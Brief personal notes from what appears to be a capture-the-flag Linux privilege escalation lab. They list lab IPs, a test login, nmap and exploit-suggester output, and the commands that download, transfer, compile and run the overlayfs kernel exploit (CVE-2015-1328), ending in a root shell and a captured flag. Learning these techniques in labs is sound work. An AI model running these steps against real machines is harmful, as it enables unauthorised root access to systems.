 # LINUX PRIVILEGE ESCALATION 
> TASK 3 ENUMERATION 

me=10.10.84.129
target=10.10.35.144 
target=10.10.115.127


karen
Password1

sudo nmap -sSVC -T4 --min-rate 8888 10.10.35.144

ssh
create nc listener
victim rev shell 
stabilize shell

karen@wade7363:/tmp$ cat /proc/version
Linux version 3.13.0-24-generic (buildd@panlong) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014
````
clone linux exploit suggester
send to victim pc 
```
./les.sh > exploits.txt           
karen@wade7363:/tmp$ cat exploits.txt | grep "high" -B3 -A3
[+] [CVE-2016-5195] dirtycow

Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
Exposure: highly probable
Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},[ ubuntu=16.04|14.04|12.04 ]
Download URL: https://www.exploit-db.com/download/40611
Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
--
[+] [CVE-2016-5195] dirtycow 2

Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
Exposure: highly probable
Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
Download URL: https://www.exploit-db.com/download/40839
ext-url: https://www.exploit-db.com/download/40847
--
[+] [CVE-2015-1328] overlayfs

Details: http://seclists.org/oss-sec/2015/q2/717
Exposure: highly probable
Tags: [ ubuntu=(12.04|14.04){kernel:3.13.0-(2|3|4|5)*-generic} ],ubuntu=(14.10|15.04){kernel:3.(13|16).0-*-generic}
Download URL: https://www.exploit-db.com/download/37292

wget https://www.exploit-db.com/download/37292
mv 37292 exploit.c
nc TARGET_IP 3333 < exploit.c

gcc exploit.c -o exploit
./exploit

karen@wade7363:/tmp$ ./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),1001(karen)
# bash
root@wade7363:/tmp# find / -name flag1.txt 2>/dev/null
/home/matt/flag1.txt
root@wade7363:/tmp# cat /home/matt/flag1.txt
THM-28392872729920


```
